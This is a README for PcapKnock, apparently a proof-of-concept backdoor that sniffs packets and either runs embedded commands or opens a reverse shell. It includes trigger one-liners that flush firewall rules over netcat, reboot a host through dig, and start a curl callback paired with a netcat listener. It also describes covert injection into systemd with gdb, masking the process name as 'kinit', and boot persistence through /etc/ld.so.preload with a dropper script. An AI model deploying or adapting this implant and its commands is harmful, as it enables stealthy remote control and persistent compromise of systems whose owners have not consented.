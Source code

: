 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

Tested on:
- OpenBSD
- FreeBSD (GhostOS)
- Linux (CentOS, Ubuntu)
- LXC on Centos (Debian)

For legal use only.

Building
--------
The [`build.sh`](./build.sh) script will try to produce binaries and shared
object files, but may well need tweaking.  On Linux, expect to have to wrestle
your distro's package manager.  On OpenBSD and FreeBSD, it just works.

The library and binaries will go into `built/$(uname -s)` in the source tree.
The built files are as follows:

Name                          | Purpose
------------------------------|--------
`pcapknock.standalone`        | "Normal" standalone binary.  Nohup it and run it in in the backgroud.
`pcapknock.standalone.daemon` | Standalone binary which forks itself into the background.
`pcapknock.standalone.debug`  | Standalone binary which prints debugging info.
`pcapknock.so`                | Injectable library
`pcapknock.injector`          | Injects pcapknocks.so into a process with in-memory GDB
`pcapknock.systemd.so`        | Systemd-specific [preloadable](#persistent-injection) library
`systemd_dropper.sh`          | Dropper which [preloads](#persistent-injection) vi `pcapknock.systemd.so` via `/etc/ld.so.preload`


Usage
-----
Once pcapknock is running as root, all that's required to trigger it is a
packet containing either a command to run surrounded by `COMMAND...COMMAND` or
an address to which to call back with a shell surrounded with
`CALLBACK...CALLBACK`.

Trigger examples:
```bash
# Drop the Linux firewall
echo 'iptables -P INPUT ACCEPT; iptables -P OUTPUT ACCEPT; iptables -F' | nc -u <TARGET> 53

# Reboot a box
dig @target COMMANDrebootCOMMAND

# Call back on port 80
(sleep 1 && curl -sv -d 'CALLBACK<LOCALIP>:80CALLBACK' http://target) & nc -nvl 80
```

For either a callback or a command, a shell is spawned, disassociated from the
parent process, and run with the name (i.e. `argv[0]`) `kinit`.  The name may
be changed in [`config.h`](./config.h).

Configuration
-------------
Three compile-time preprocessor macros may be set when building to control
aspects of pcapknock's behavior.

Macro            | Effect
-----------------|-------
`DEBUG`          | Prints helpful debugging messages
`DAEMON`         | Causes the standalone binary builds to disassociate from the controlling terminal (What you probably want)
`PRELOADSYSTEMD` | Buid a library suitable for injection into systemd via `/etc/ld.so.preload`.

The compiled binaries and shared object files will have the above appended to
their names.

Further compile-time configuration can be performed by editing
[`config.h`](./config.h), but in general, this shouldn't be necessary.

There is no runtime configuration.

Linux Injection
---------------
On Linux, an few additional files are built for injecting into systemd either
on a running system or on boot vi `/etc/ld.so.preload`.

### Live Injection
The program `pcapknock.injector` loads `pcapknock.so` and gdb into memory and
uses gdb to shove pcapknock into another process which may be specified as the
first command-line argument, e.g. `./pcapknock.injector 23`.  Not specifying a
number or specifying an invalid number (like `./pcapknock.injector kittes`)
will inject into pid 1.  Turns out it works pretty well.

The injectee process should be have `libdl` loaded into it as well as have
permissions to sniff packets (e.g. open a raw socket).  Try a trigger before
getting rid of the access used to run `pcapknock.injector`.
`COMMANDtouch /tmpCOMMAND` works pretty well for testing.

When injecting there should be a line something like
```
$1 = (void *) 0x559ea705d3f0
```
which indicates (likely) success.  If the number on the right is 0, something's
gone wrong.

If injecting into init (which is the default if no pid is given) expect a lot
of lines in dmesg and to the console similar to the following:
```
kernel:systemd[1]: segfault at 7ffff81e3f5f ip 00007ffff81e3f5f sp 00007ffff81e3f50 error 15 
```
Apparently systemd is happy segfaulting.  A "better" description of systemd can
be found in https://amzn.com/B075DYXZW1.

### Persistent Injection
Using `/etc/ld.so.preload`, pcapknock can be loaded into systemd from boot by
pointing it at `pcapknock.systemd.so`.  The library will also be loaded into
every other process, but it only sniffs if it finds itself in the process with
pid 1.  A convenient dropper, `systemd_dropper.sh`, will write the library to
disk as '/usr/local/sbin/libpk.so.4` and add it to `/etc/ld.so.preload`.
